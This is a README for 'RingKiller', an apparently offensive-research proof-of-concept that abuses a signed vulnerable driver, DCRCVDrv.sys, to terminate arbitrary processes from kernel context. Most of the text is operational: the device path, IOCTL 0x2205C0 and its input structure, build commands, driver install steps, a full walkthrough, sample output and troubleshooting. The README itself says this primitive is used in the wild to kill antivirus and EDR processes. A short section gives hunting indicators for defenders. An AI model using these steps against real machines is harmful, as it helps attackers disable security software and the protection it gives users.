

<p align="center">
  
</p>

# RingKiller

**RingKiller** is a small user-mode PoC that abuses `DCRCVDrv.sys` to terminate a process from kernel context. We built it while reversing the driver for NINJA's BYOD driver research — the same primitive shows up in real campaigns (Cruciferra, ACRStealer, etc.) where attackers load the signed driver and blast security product PIDs with a single IOCTL.

The driver itself is a MOCOMSYS & DCRC product (`DCRCV_U`). It's meant for enterprise VM/desktop control, but IOCTL `0x2205C0` is essentially an unauthenticated kill switch.

> Lab VM only. Don't load this on anything you care about.

---

## The bug in one sentence

Open `\\.\DCRCVDRV_U`, send `DeviceIoControl(0x2205C0, &pid, 4, ...)`, and the driver walks your PID into `ZwTerminateProcess` — no allow-list, no caller check, `FILE_ANY_ACCESS` on the device.

---

## Sample hash

If you're matching against our binary:

| | |
|---|---|
| File | `567c158ee0858f8e941d4ab7a6c18dbc.bin` |
| SHA-256 | `87e8d39db624f37d3e77aedf487a2dfd197f71a4730ea74f4e7a4341deaec2ff` |
| MD5 | `567c158ee0858f8e941d4ab7a6c18dbc` |

---

## What RingKiller actually does

RingKiller only implements the kill path. The full driver is much bigger — minifilters, WFP callouts, registry callbacks, process protection via `ObRegisterCallbacks`, the whole VM policy stack. We don't touch any of that here.

| | |
|---|---|
| Device | `\\.\DCRCVDRV_U` |
| Service | `DCRCVDRV_U` |
| IOCTL | `0x2205C0` (`METHOD_BUFFERED`, `FILE_ANY_ACCESS`) |
| Input | 4 bytes — target PID as `DWORD` |
| Output | nothing |

Kernel-side (confirmed via debug strings in the driver):

```
IOCTL 0x2205C0
  -> TerminateProcessByProcessId
       -> PsLookupProcessByProcessId
       -> ObOpenObjectByPointer
       -> ZwTerminateProcess
```

Worth knowing: PPL-protected processes may survive the call. Invalid PIDs fail at lookup. The IOCTL constant isn't stored literally in the binary — dispatch derives it through a compare chain — but Ghidra/IDA both land on `0x2205C0` for the terminate handler.

---

## Files

| File | What it is |
|------|------------|
| `ringkiller.c` | PoC source |
| `ringkiller.exe` | built binary |
| `ringkiller-banner.png` | project banner |
| `install_dcrcv_service.bat` | load driver (admin) |
| `uninstall_dcrcv_service.bat` | unload driver (admin) |
| `DCRCVDrv.sys` / `*.bin` | driver sample — you supply this |

---

## Running it

You need an admin shell to load the driver. RingKiller itself runs as whatever user can open the device handle.

**1. Drop the driver**

Either name it `DCRCVDrv.sys` or keep the hash-named `.bin` — the install script copies it automatically.

**2. Load**

```bat
install_dcrcv_service.bat
```

You should see the `DCRCVDRV_U` service running and the device at `\\.\DCRCVDRV_U`.

**3. Build**

```bat
gcc -Wall -Wextra -o ringkiller.exe ringkiller.c
```

MSVC works too: `cl /W4 /Fe:ringkiller.exe ringkiller.c`

**4. Fire**

```bat
ringkiller.exe 1234
```

Typical output:

```text
[*] RingKiller
[*] target pid: 1234
[*] device open: \\.\DCRCVDRV_U
[*] firing IOCTL 0x002205C0
[+] done — driver accepted the request
```

**5. Clean up**

```bat
uninstall_dcrcv_service.bat
```

---

## Full walkthrough

```bat
cd DCRCVDrv
install_dcrcv_service.bat
gcc -Wall -Wextra -o ringkiller.exe ringkiller.c
start notepad.exe
:: grab notepad's PID from task manager
ringkiller.exe 5678
uninstall_dcrcv_service.bat
```

---

## When things break

| What you see | Usually means |
|--------------|---------------|
| `CreateFileW failed: error 2` | Driver not loaded |
| `sc start failed` | Blocklist, bad signature policy, or path issue |
| `DeviceIoControl failed` | Bad PID, protected process, or target already gone |
| `Bad PID` | Pass a plain decimal PID |

---

## IOCTL reference

```c
#define DCRCV_DEVICE_PATH     L"\\\\.\\DCRCVDRV_U"
#define IOCTL_RINGKILLER      0x2205C0

typedef struct _RINGKILLER_INPUT {
    DWORD ProcessId;
} RINGKILLER_INPUT;
```

---

## Notes

- No exit-status field on this IOCTL (unlike our Alinubx PoC in the parent repo).
- Seen in the wild as an EDR-killer primitive — load driver, enumerate AV PIDs, loop `DeviceIoControl`.
- For defensive work: hunt for `DCRCVDRV_U` service, handle opens to `\\.\DCRCVDRV_U`, and IOCTL `0x2205C0` in telemetry.

---

*NINJA — offensive security research. Authorized testing only.*
